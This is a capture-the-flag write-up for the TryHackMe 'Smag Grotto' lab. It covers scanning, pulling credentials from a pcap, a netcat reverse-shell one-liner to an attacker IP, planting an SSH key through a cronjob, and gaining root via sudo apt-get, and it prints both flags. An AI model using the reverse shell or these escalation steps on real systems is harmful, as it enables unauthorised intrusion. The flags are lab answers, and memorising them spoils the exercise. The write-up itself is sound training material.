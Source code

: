 ```yaml
---
title: "Smag Grotto - TryHackMe"
author: Ludovic COULON
date: 2020-07-19
hero: ./images/hero.jpeg
excerpt: "Writeup for the Smag Grotto university of Portsmouth's beginner room"
---
```


[TryHackMe | Smag Grotto](https://tryhackme.com/room/smaggrotto)

Deploy the machine and get root privileges.

---

### Setup

```
[smaggrotto] nmap -A 10.10.192.6                                                                                         2:01:00
```

```bash
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 1.3K  2020-06-05 10:56  admin.php
| 1.5K  2020-06-05 10:45  login.php
| 139K  2020-06-05 10:19  materialize.min.css
|_
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Index of /
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![https://i.imgur.com/D9PypUN.png](https://i.imgur.com/D9PypUN.png)

Let's see if there is something on the website

![https://i.imgur.com/aXIQi2Y.png](https://i.imgur.com/aXIQi2Y.png)

Well nothing of the website let's see of there is some hidden dirrectory with gobuster/dirb

```bash
[smaggrotto] gobuster -u 10.10.192.6 -w /opt/directory-list-2.3-medium.txt                                               2:10:03 # Select your own wordlist                                              2:06:46
```

```bash
Gobuster v1.3                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.192.6/
[+] Threads      : 10
[+] Wordlist     : /opt/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
=====================================================
/mail (Status: 301)
```

![https://i.imgur.com/V1XUxTY.png](https://i.imgur.com/V1XUxTY.png)

![https://i.imgur.com/UZZG0pk.png](https://i.imgur.com/UZZG0pk.png)

Nice there is something interesting on this webpage let's download the pcap (wireshark) file and extract the juicy data 👀

![https://i.imgur.com/FZ4Kz25.png](https://i.imgur.com/FZ4Kz25.png)

The simple way to extract the data is to select the first packet then go to the "Analyse" tab the click on the "Follow" then "TCP Stream"

![https://i.imgur.com/yKY9pMB.png](https://i.imgur.com/yKY9pMB.png)

![https://i.imgur.com/uI8Nksb.png](https://i.imgur.com/uI8Nksb.png)

Nice we successfully have the username and the password but for what ? The SSH ? Or something else ? 🙄

Before trying the SSH connection with those credentials, you can see on the TCP Stream there is a Host : "development.smag.thm", let's take a look to this link.

To add this host you need to edit your "/etc/hosts" file.

![https://i.imgur.com/Q5KPLgs.png](https://i.imgur.com/Q5KPLgs.png)

![https://i.imgur.com/FLbTQw7.png](https://i.imgur.com/FLbTQw7.png)

Well let's use the credentials that the TCP Stream gives us

```bash
helpdesk:cH4nG3M3_n0w
```

![https://i.imgur.com/L0iBMqp.png](https://i.imgur.com/L0iBMqp.png)

Nice, we can execute remote command let's try a reverse shell 🤩

![https://i.imgur.com/UJiq34Y.png](https://i.imgur.com/UJiq34Y.png)

(This is actually my own chrome extension to generate some reverse shell and more..)

[LasCC/Hack-Tools](https://github.com/LasCC/Hack-Tools)

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.28.116 1337 >/tmp/f
```

![https://i.imgur.com/4pVmO2j.png](https://i.imgur.com/4pVmO2j.png)

Nice we have a reverse shell, let's see if we can have the first flag 🏅

![https://i.imgur.com/i1MkJLx.png](https://i.imgur.com/i1MkJLx.png)

As you can see we don't have the permission to see the content of the file let's upload LinEnum to see if there is some potential attacks that we can perform.

![https://i.imgur.com/G9PaoMF.png](https://i.imgur.com/G9PaoMF.png)

Ah, I found something very interesting with the cronjob

![https://i.imgur.com/MkUFU4L.png](https://i.imgur.com/MkUFU4L.png)

As you can see the cronjob is taking the jake's backup SSH public key and add it to the authorised keys, if we create our own key and modify the backup file we can access the server ☺️

First let's generate our own SSH public key 👍

```bash
[smaggrotto] ssh-keygen -o                                                                                               2:25:52
```

![https://i.imgur.com/kXjks3E.png](https://i.imgur.com/kXjks3E.png)

Nice we have our own SSH public key let's change the backup file on the server 👍

![https://i.imgur.com/Q7IGUeR.png](https://i.imgur.com/Q7IGUeR.png)

Now let's wait one or two minutes and then we can log to the server with the jake username 😀

```bash
[smaggrotto] ssh -i [Path to your ssh key] jake@10.10.192.6                                                            2:28:49
```

![https://i.imgur.com/hEeAJH6.png](https://i.imgur.com/hEeAJH6.png)

And voilà ! You have the access to the remote server ! 🎉

### **#1 What is the user flag?**

```bash
iusGorV7EbmxM5AuIe2w499msaSuqU3j
```

![https://i.imgur.com/WCAha3D.png](https://i.imgur.com/WCAha3D.png)

### **#2 What is the root flag?**

Now let's get a root access 😍

![https://i.imgur.com/TcRPpC7.png](https://i.imgur.com/TcRPpC7.png)

![https://i.imgur.com/9sh8unG.png](https://i.imgur.com/9sh8unG.png)

[apt get | GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/#sudo)

![https://i.imgur.com/Vm5kVEu.png](https://i.imgur.com/Vm5kVEu.png)

```bash
uJr6zRgetaniyHVRqqL58uRasybBKz2T
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/hejzVWP.png" alt="TryhackMeProfile" />
  </a>
</center>
